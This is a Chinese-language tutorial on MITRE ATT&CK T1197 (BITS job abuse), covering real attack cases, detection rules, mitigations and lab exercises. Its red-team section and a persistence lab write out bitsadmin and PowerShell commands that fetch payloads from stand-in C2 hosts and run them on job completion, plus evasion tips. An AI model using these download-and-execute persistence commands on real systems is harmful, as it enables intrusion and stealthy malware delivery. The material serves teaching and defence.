

# BITS作业 (T1197)

## 一句话通俗理解

> 就像利用快递公司的"后台配送系统"偷偷运送违禁品——Windows的BITS服务本来是用来后台下载更新的，攻击者却用它来下载和执行恶意代码，而且防火墙通常不会拦截。

## 难度等级

⭐⭐ 中等（需要初始代码执行能力）

## 技术描述

Windows后台智能传输服务（BITS）是一种低带宽、异步的文件传输机制，通过组件对象模型（COM）暴露。文件传输任务作为BITS作业实现，包含一个或多个文件操作的队列。创建和管理BITS作业的接口可通过PowerShell和BITSAdmin工具访问。

攻击者可能滥用BITS来下载、执行恶意代码，甚至在运行后清理痕迹。BITS任务是自包含在BITS作业数据库中的，不需要新文件或注册表修改，且通常被主机防火墙允许。BITS启用的执行还可以通过创建长期作业（默认最长生存期为90天且可扩展）或在作业完成或出错时调用任意程序（包括系统重启后）来实现持久化。

## 子技术列表

该技术无子技术。

## 攻击流程



```
1. 获取初始代码执行能力
    ↓
2. 使用BITSAdmin或PowerShell创建BITS作业
    ↓
3. 配置作业：
   - 设置下载URL（C2服务器）
   - 设置通知命令（恶意payload）
   - 设置长生存期（避免自动清理）
    ↓
4. 作业在后台静默执行
    ↓
5. 作业完成或出错时触发恶意代码执行
    ↓
6. 系统重启后作业自动恢复
```

## 真实案例

### 案例1：UBoatRAT 利用BITS实现持久化
- **时间**: 2017年首次被发现
- **目标**: 全球政府和企业网络
- **手法**: UBoatRAT利用BITSAdmin的`/SetNotifyCmdLine`选项在系统上保持持久性。当BITS作业完成或遇到错误时，执行恶意程序，从而在系统重启后仍能保持活跃。
- **链接**: https://attack.mitre.org/software/S0333/

### 案例2：APT29 利用BITS进行隐蔽下载
- **时间**: 2020-2021年
- **目标**: 欧洲政府官员和外交人员
- **手法**: APT29在其攻击活动中使用BITSAdmin作为"离地攻击"工具，下载额外的恶意组件。BITS是合法的Windows组件，通常被安全软件信任，使得恶意下载活动难以被检测。
- **链接**: https://www.mandiant.com/resources/evasive-attacker-leverages-solarwinds-supply-chain-compromises

### 案例3：Emotet 利用BITS分发恶意负载
- **时间**: 2020-2021年
- **目标**: 全球企业和政府网络
- **手法**: Emotet恶意软件使用BITS作业来下载后续payload，包括TrickBot和Conti勒索软件。通过BITS下载的文件不会触发典型的网络下载告警，因为BITS流量看起来像正常的Windows更新流量。
- **链接**: https://attack.mitre.org/software/S0367/

### 案例4：Volt Typhoon 利用BITS进行隐蔽通信
- **时间**: 2023-2024年
- **目标**: 美国关键基础设施
- **手法**: Volt Typhoon组织使用BITSAdmin工具下载额外的攻击工具和payload，利用BITS的合法性和防火墙豁免特性来逃避网络检测。
- **链接**: https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

**攻击优势**：
- BITS是合法Windows组件，通常被安全软件信任
- 不需要创建新文件或修改注册表
- 默认被主机防火墙允许
- 作业可在系统重启后自动恢复
- 默认生存期90天，可延长

**常用命令**：
```cmd
REM 创建下载作业
bitsadmin /create myjob
bitsadmin /addfile myjob http://c2.com/payload.exe C:\temp\payload.exe
bitsadmin /SetNotifyCmdLine myjob C:\temp\payload.exe NULL
bitsadmin /resume myjob

REM 使用PowerShell
Start-BitsTransfer -Source http://c2.com/payload.exe -Destination C:\temp\payload.exe
```

**实战技巧**：
- 使用`/SetNotifyCmdLine`设置作业完成时执行的命令
- 设置`/SetPriority`为"LOW"减少被注意的可能
- 使用`/SetACLFlags`限制作业的可见性

## 蓝队视角

**防御重点**：
- 监控BITSAdmin和PowerShell BITS cmdlet的异常使用
- 审查BITS作业队列中的可疑条目
- 检测长期存在的BITS作业

**常见盲点**：
- 认为BITS是"安全"的Windows组件而忽略监控
- 只关注文件下载，忽略作业完成时的命令执行
- 未检查BITS作业的生存期设置

## 检测建议

### 网络层检测

**检测方法：** 监控BITS流量特征，检测异常的BITS文件传输活动。

**具体规则/命令示例：**
```bash
# Suricata规则检测BITS协议流量
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"BITS Protocol Usage Detected"; content:"BITS_POST"; http_client_body; content:"BITS_METHOD"; http_client_body; sid:1000209; rev:1;)
```

### 主机层检测

**检测方法：** 监控BITSAdmin和PowerShell BITS cmdlet的异常使用，审查BITS作业队列。

**Windows事件ID：**
- Microsoft-Windows-Bits-Client/Operational事件ID 3：BITS作业传输完成
- Microsoft-Windows-Bits-Client/Operational事件ID 60：BITS作业创建
- Microsoft-Windows-Bits-Client/Operational事件ID 62：BITS作业修改
- Sysmon事件ID 1：进程创建（监控bitsadmin.exe的使用）

**Linux日志：**
- BITS是Windows特有的技术，Linux/macOS不适用

**具体命令示例：**
```bash
# 列出所有BITS作业
bitsadmin /list /allusers

# 查看BITS作业详细内容
bitsadmin /info myjob /verbose

# 检查PowerShell BITS使用历史
Get-WinEvent -LogName "Microsoft-Windows-Bits-Client/Operational" | Where-Object { $_.Id -eq 60 } | Select-Object TimeCreated, Message
```

### 应用层检测

**Sigma规则示例：**
```yaml
title: BITSAdmin作业创建检测
status: experimental
description: 检测bitsadmin.exe创建新作业的行为
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '\bitsadmin.exe'
        CommandLine|contains: '/create'
    condition: selection
level: medium
tags:
    - attack.t1197
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** BITSAdmin管控与限制

**具体实施步骤：**
1. 使用AppLocker或WDAC限制bitsadmin.exe的执行，仅允许管理员使用
2. 通过组策略限制非管理员用户创建BITS作业的权限
3. 实施PowerShell限制策略，限制非管理员使用Start-BitsTransfer等cmdlet
4. 配置Windows防火墙限制bitsadmin.exe的出站网络访问

### 优先级2：重要措施

**措施名称：** BITS作业审计与监控

**具体实施步骤：**
1. 启用Microsoft-Windows-Bits-Client操作日志，记录所有BITS作业创建和完成事件
2. 配置Sysmon监控bitsadmin.exe和PowerShell BITS cmdlet的进程创建事件
3. 定期审查BITS作业队列（使用`bitsadmin /list /allusers /verbose`）
4. 设置告警规则：检测使用`/SetNotifyCmdLine`参数创建BITS作业的行为

**配置示例：**
```bash
# 启用BITS客户端调试日志
wevtutil sl "Microsoft-Windows-Bits-Client/Operational" /e:true

# 使用AppLocker阻止非管理员使用bitsadmin.exe
# 在AppLocker规则中设置：Path规则阻止*%WINDIR%\System32\bitsadmin.exe仅允许管理员
```

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验1：基本BITS下载
```cmd
REM 创建BITS作业并下载文件
bitsadmin /create testjob
bitsadmin /addfile testjob https://example.com/test.txt C:\temp\test.txt
bitsadmin /resume testjob
bitsadmin /complete testjob
```

### 实验2：BITS持久化（SetNotifyCmdLine）
```cmd
REM 创建作业并设置完成时执行的命令
bitsadmin /create persistjob
bitsadmin /addfile persistjob http://attacker.com/beacon.exe C:\temp\beacon.exe
bitsadmin /SetNotifyCmdLine persistjob C:\temp\beacon.exe NULL
bitsadmin /SetMinRetryDelay persistjob 60
bitsadmin /resume persistjob
```

### 实验3：使用Atomic Red Team测试
```powershell
# 导入Atomic Red Team模块
Import-Module .\invoke-atomicredteam.psd1

# 执行T1197测试
Invoke-AtomicTest T1197
```

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| BITS | Background Intelligent Transfer Service | Windows后台智能传输服务，用于在后台下载/上传文件 |
| BITSAdmin | BITSAdmin | BITS管理命令行工具，用于创建和管理BITS作业 |
| COM | Component Object Model | 组件对象模型，Windows中让不同软件组件相互通信的标准 |
| C2 | Command and Control | 命令与控制服务器，攻击者用来指挥受感染系统的服务器 |
| LOLBAS | Living Off the Land Binaries and Scripts | 利用系统自带工具的攻击技术，即"离地攻击" |
| 作业 | Job | BITS中的文件传输任务单元 |

## 参考资料

- [MITRE ATT&CK T1197 BITS作业](https://attack.mitre.org/techniques/T1197/)
- [CISA BITS作业防御指南](https://www.cisa.gov/eviction-strategies-tool/info-attack/T1197)
- [UBoatRAT分析 - Palo Alto Unit 42](https://unit42.paloaltonetworks.com/unit42-uboatrat-navigates-east-asia/)
- [Volt Typhoon Advisory - CISA](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a)
- [Atomic Red Team - T1197](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1197)
- [Microsoft BITS文档](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)
